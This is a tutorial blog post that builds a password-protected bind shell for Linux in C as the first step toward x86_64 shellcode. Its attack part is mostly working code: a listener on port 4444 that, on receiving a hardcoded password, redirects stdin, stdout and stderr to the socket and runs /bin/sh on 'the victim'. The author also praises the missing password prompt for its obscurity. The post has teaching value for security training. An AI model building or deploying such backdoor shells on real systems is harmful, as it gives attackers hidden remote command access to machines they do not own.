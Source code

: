 ```yaml
---
title: "Writing a password protected bind shell in C"
date: 
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.
To accomplish this goal, we need to take this process through 3 parts:
Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.
Secondly, the C code needs to be ported to x86_64 Assembly code.
Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.
This blog post will consist of two parts:
Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode
 PART 1 - Writing a password protected bind shell for Linux in C
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.
What is a Bind Shell?
A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.
Creating the Bind Shell
In the process of creating a bind shell, we will be stepping through 7 stages:
Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.
Stage 1 - Creating a new socket
The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```C
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:
Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0

```C
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.
Stage 2 - Binding the newly created socket to a port
In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:
The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.

```C
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

Stage 3 - Listen for incoming connections on the newly created socket
The listen syscall accepts 2 arguments:
File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue

``C
listen(sock, 2);
```

Stage 4 - Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.
The accept syscall takes 3 arguments:
The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.

```C
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.
Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities
For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```C
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

Stage 6 - Wait for input (password) to be received and compare it against the correct password string
Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.
The read syscall accept 3 arguments:
File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer
We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```C
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

Stage 7 - Spawn the shell, if password is correct
So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.
The execve syscall executes a program using:
Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this

```C
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.
The code for the password protected bind shell can be found here.
I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.
In PART 2 we will be discussing how to port all of the above to x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 

